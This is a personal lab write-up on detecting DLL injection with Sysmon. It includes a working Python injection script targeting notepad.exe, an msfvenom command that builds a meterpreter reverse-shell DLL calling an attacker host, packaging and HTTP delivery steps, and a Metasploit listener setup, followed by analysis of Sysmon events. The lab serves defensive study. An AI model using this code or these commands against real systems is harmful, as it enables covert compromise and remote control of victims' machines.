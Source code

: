 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

### Sysmon Configuration

![Image](https://github.com/user-attachments/assets/9622ffff-10ed-45c0-9805-0e5931343393)

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```
![Image](https://github.com/user-attachments/assets/8654a2ea-66e0-465f-bfb9-918f40ed46b8)

ON THE TARGET MACHINE:

![Image](https://github.com/user-attachments/assets/8a158433-7f37-4a79-909c-2df56d66ccc2)
---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Create

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

  
  ### Event ID 12: Registry Object Added or Deleted
  ```
  RuleName InvDB 
  EventType DeleteValue 
  UtcTime 2025-05-09 23:38:12.943    
  Image C:\Windows\system32\svchost.exe 
  TargetObject HKU\S-1-5-21-1708299313-952822903-2634392219-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Compatibility Assistant\Store\C:\Users\home\Downloads\injection.exe 
  ```
**Explanation**:The process `svchost.exe`, running as `NT AUTHORITY\SYSTEM`, deleted a registry entry related to the executable `injection.exe`. This behavior may indicate an attempt to hide execution traces, which is common in evasion or anti-forensic techniques following DLL injection.

### Event ID 13: Registry Event

```
RuleName InvDB 
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe

```
**Rule from the Sysmon configuration file:**

```xml
<TargetObject name="InvDB" condition="contains">Compatibility Assistant\Store\</TargetObject> <!-- Inventory -->
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.The log shows a rule named **InvDB**. After searching Sysmon's configuration file, I found the rule that records this behavior. I believe it was triggered because the executable interacted with the Compatibility Assistant.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows security defenses or a code error.  
To proceed with the Sysmon log analysis, I created a simpler malware sample whose only purpose was to initiate a remote connection.

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ##.##.##.##
set LPORT 4444
run
```


![Image](https://github.com/user-attachments/assets/654d581d-448b-41fd-9989-a6007542fccf)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: ##.##.##.#
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab was extremely valuable for deepening my understanding of Sysmon logging and key Windows processes such as `svchost.exe`, `explorer.exe`, and `rundll32.exe`.  
Although I was not able to successfully execute the first malware sample, the process of creating and troubleshooting it gave me significant hands-on experience.  
I plan to conduct a follow-up lab to further explore DLL injection techniques and Windows process behavior in greater detail.
